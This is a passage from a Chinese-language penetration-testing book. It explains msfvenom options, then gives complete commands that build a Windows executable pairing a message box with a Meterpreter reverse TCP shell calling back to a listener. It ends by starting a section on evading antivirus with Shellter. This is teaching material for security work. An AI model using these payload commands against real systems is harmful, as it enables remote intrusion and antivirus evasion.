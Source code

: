 +   `--var-name` 命令在我们讨论 shellcoding 时会对我们有用，但即便如此，它也不会做太多事情。它真正是为那些喜欢与众不同并使用自定义输出变量名称的人准备的。

+   `--timeout` 命令是生成大有效载荷的一个新特性；它防止在读取有效载荷时出现超时。这个需求来自那些将`msfvenom`的输出通过管道传递到`msfvenom`的用户。你可能不会使用这个选项，但知道它的存在还是挺不错的。

现在我们已经了解了这个工具的强大功能，是时候进行一次包含两个有效载荷的攻击演示了。

## 创建嵌套的有效载荷

接下来，我们将为客户准备一个演示，在该演示中，有效载荷将显示一条消息给用户，内容是**你被搞定了，兄弟！**，同时为监听处理器创建一个 Meterpreter 会话。

有两个有效载荷，所以我们必须使用两个命令，它们如下：

# msfvenom --arch x86 --platform windows --payload windows/messagebox ICON=INFORMATION TITLE="抱歉" TEXT="你被搞定了，兄弟！" --format raw > Payload1

# msfvenom --add-code Payload1 --arch x86 --platform windows --payload windows/meterpreter_reverse_tcp LHOST=192.168.108.106 LPORT=4567 --format exe > demo.exe

到此为止，我们已经在两个命令中将目标架构和平台设置为 32 位 Windows。在第一个命令中，我们将有效载荷设置为`windows/messagebox`，并设置了`ICON`、`TITLE`和`TEXT`有效载荷选项。（如果你要使用感叹号，就像我们在这里做的一样，在它后面加个空格，避免转义结束的引号，或者使用单引号。）格式是原始二进制格式，因为我们将把它导入到下一个命令中并使用`--add-`code。第二个有效载荷是`windows/meterpreter_reverse_tcp`，它是一个 Meterpreter 会话，连接回我们通过`LHOST`（反向）并通过 TCP 端口连接，我们通过`LPORT`定义了端口。最后，我们希望将结果输出为 EXE 格式。请注意，这只是一个演示；我们通常会推荐其他有效载荷的组合，因为消息框并不算隐蔽：

![图 7.1 – 我们的有效载荷执行结果](img/Figure_7.1_B17616.jpg)

图 7.1 – 我们的有效载荷执行结果

虽然我们将在本书后面讨论 shellcoding 的细节，但值得一提的是，组合有效载荷很可能会在你的作品中引入不良字符。你应该在测试环境中验证你的结果，使用`--bad-chars`来消除类似空字节之类的字符，这些字符几乎肯定会破坏 Windows 的 shellcode。生成有效的 shellcode 并非魔法，因此如果某些有效载荷无法被编码，不要感到惊讶！

## 大乱斗 – 使用 Shellter 绕过防病毒软件

让我们来看一下以下步骤：

1.  首先，我们需要启动 Shellter。要启动 Shellter，请使用以下命令行：

    # shellter

